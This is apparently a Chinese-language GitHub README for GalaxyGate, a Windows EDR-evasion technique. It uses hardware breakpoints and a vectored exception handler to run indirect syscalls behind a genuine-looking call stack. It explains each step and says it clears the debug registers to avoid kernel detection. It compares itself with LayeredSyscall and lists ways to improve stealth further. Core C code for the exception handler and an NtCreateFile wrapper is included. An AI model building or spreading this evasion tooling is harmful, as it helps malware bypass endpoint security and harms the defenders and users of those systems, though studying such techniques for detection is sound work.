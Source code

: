GalaxyGate 是一个结合硬件断点与 VEH（异常处理机制）的创新项目，旨在实现调用堆栈合法且完整的情况下，执行任意系统调用。

## 工作原理

GalaxyGate 通过以下步骤实现其功能：

1. **参数传递**：利用全局变量 `SFParams` 向 VEH 传递真实的调用参数，包括 `Syswhisper3` 函数哈希值和参数数量。
2. **触发异常**：制造内存访问冲突，使执行流进入 VEH，从而在无需调用额外 Windows API（如 `SetThreadContext`）的情况下修改调试寄存器。
3. **系统调用解析**：项目引用了经过修改的 `Syswhisper3`，用于解析系统调用地址和系统调用号。
4. **高层傀儡函数调用**：通过调用高层傀儡函数，间接触发目标 `Nt*` 函数的 `Syscall` 指令码位置，从而激活硬件断点。
5. **VEH 参数填充**：执行流进入 VEH 后，根据 Fastcall 调用约定填充真实调用参数。
6. **清理调试寄存器**：在操作完成后清除调试寄存器，避免内核态检测到异常。
7. **伪装合法性**：由于高层函数自带错误处理机制，真实调用完成后，高层傀儡函数能够正常返回，进一步触发更多 EDR Hook，增强调用的合法性。

## 项目模式

GalaxyGate 提供两种操作模式：

- **NextGen 模式**：通过 Ghidra 反编译，定位间接调用目标底层函数的高层傀儡函数进行操作。
- **Legacy 模式**：调用高层傀儡函数 `GetFileAttributesW`，拦截其下游函数 `NtQueryAttributesFile`，并通过修改系统调用号完成操作。

## 灵感来源

GalaxyGate 的灵感来源于 `SilentMoonWalk` 调用堆栈欺骗项目。与其使用伪造的调用堆栈以假乱真，GalaxyGate 选择直接利用真实的函数调用堆栈，从而提升隐蔽性和自然性。


## 与类似项目比较

在首个版本发布两个月后，在 `Github` 发现一个类似项目（Grok3找到的）：[LayeredSyscall](https://github.com/WKL-Sec/LayeredSyscall)。

### 与 LayeredSyscall 的比较

| 特性                  | GalaxyGate                         | LayeredSyscall                     |
|----------------------|------------------------------------|------------------------------------|
| **傀儡函数**          | 可选择多种高层函数 | 固定为 `MessageBoxW`               |
| **拦截方式**          | 拦截 `Syscall` 指令码              | 拦截 `Syscall` `ret` 指令码                  |
| **副作用**            | 无明显副作用                       | 未拦截 `ret` 会导致消息框弹出             |
| **调试寄存器清理**    | 在系统调用前清零，避免内核态检测           | 未在系统调用前清零，可能留下痕迹               |
| **调用堆栈自然性**    | 高度自然，符合函数调用逻辑         | 不自然，`Nt*` 函数与 `MessageBoxW` 无直接关联 |
| **Syswhisper3 优化**  | 优化不足，`SYSCALL_LIST` 留存内存可能被扫描 | 使用其他项目                 |

## 不足与改进方向

GalaxyGate 当前使用的 `Syswhisper3` 需更多优化，`SYSCALL_LIST` 留存在内存中可能被安全软件扫描检测，未来可进一步修改以提升隐蔽性。

## 示例代码

以下是部分核心代码片段，展示了 GalaxyGate 的实现逻辑：

```c
typedef struct _SFParams {
    DWORD ParamNum;         // 参数数量
    BOOL IsLegacy;          // 是否为 Legacy 模式
    DWORD FuncHash;         // 函数哈希值
    DWORD_PTR param[17];    // 调用参数
} SFParams, *PSFParams;

SFParams Params = { 0 }; // 全局变量，用于向 VEH 传递参数
DWORD* NullPointer = NULL;

LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptInfo) {
    if (pExceptInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        // 按照 Fastcall 调用协定 重设参数
        pExceptInfo->ContextRecord->Rcx = Params.param[1];
        pExceptInfo->ContextRecord->Rdx = Params.param[2];
        pExceptInfo->ContextRecord->R8 = Params.param[3];
        pExceptInfo->ContextRecord->R9 = Params.param[4];
        pExceptInfo->ContextRecord->R10 = Params.param[1];
        if (Params.ParamNum > 4) {
            DWORD64* stack = (DWORD64*)(pExceptInfo->ContextRecord->Rsp + 40); // 保留影子空间
            for (int i = 5; i <= Params.ParamNum; ++i) {
                stack[i - 5] = (DWORD64)(Params.param[i]); // 堆栈传递额外参数
            }
        }
        if (Params.IsLegacy) {
            pExceptInfo->ContextRecord->Rax = SW3_GetSyscallNumber(Params.FuncHash);
        }
        // 清除调试寄存器
        pExceptInfo->ContextRecord->Dr0 = 0;
        pExceptInfo->ContextRecord->Dr7 = 0;
        memset(&Params, 0, sizeof(Params));
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    else if (pExceptInfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // 设置硬件断点
        if (Params.IsLegacy) {
            pExceptInfo->ContextRecord->Dr0 = (DWORD_PTR)SW3_GetSyscallAddress(0x022B80BFE);
        } else {
            pExceptInfo->ContextRecord->Dr0 = (DWORD_PTR)SW3_GetSyscallAddress(Params.FuncHash);
        }
        pExceptInfo->ContextRecord->Dr7 = 0x00000303;
        pExceptInfo->ContextRecord->Rip += 6;
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

NTSTATUS SFNtCreateFile(PHANDLE FileHandle, ACCESS_MASK DesiredAccess, POBJECT_ATTRIBUTES ObjectAttributes, 
                        PIO_STATUS_BLOCK IoStatusBlock, PLARGE_INTEGER AllocationSize, ULONG FileAttributes, 
                        ULONG ShareAccess, ULONG CreateDisposition, ULONG CreateOptions, PVOID EaBuffer, ULONG EaLength) {
    // 设置参数
    Params.param[1] = (DWORD_PTR)FileHandle;
    Params.param[2] = (DWORD_PTR)DesiredAccess;
    // ... 其他参数赋值
    Params.ParamNum = 11;
    Params.FuncHash = 0x0BDDB5F9C;
    Params.IsLegacy = 0;
    *NullPointer = 1; // 触发异常
    TCHAR tempFileName[MAX_PATH];
    GetTempFileName(0, 0, 0, tempFileName); // GetTempFileName -> NtCreateFile
    return 0;
}
